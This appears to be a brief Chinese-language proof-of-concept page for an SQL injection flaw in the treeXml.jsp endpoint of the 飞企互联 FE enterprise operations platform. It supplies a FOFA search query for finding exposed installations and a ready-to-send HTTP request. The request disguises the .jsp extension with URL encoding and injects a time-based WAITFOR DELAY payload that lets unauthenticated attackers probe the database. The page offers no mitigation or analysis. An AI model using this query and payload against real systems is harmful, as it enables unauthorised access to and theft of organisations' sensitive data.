 ## 飞企互联-FE企业运营管理平台treeXml.jsp存在SQL注入漏洞

飞企互联-FE企业运营管理平台 treeXml.jsp 接口存在SQL注入漏洞，未经授权攻击者可通过该漏洞获取数据库敏感信息。

## fofa

```
app="FE-协作平台"
```

## poc

```
GET /sys/treeXml.js%70?menuName=1';WAITFOR+DELAY+'0:0:5'--&type=function HTTP/1.1 
Host: your-ip
```

![image-20240605095623810](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406050956915.png)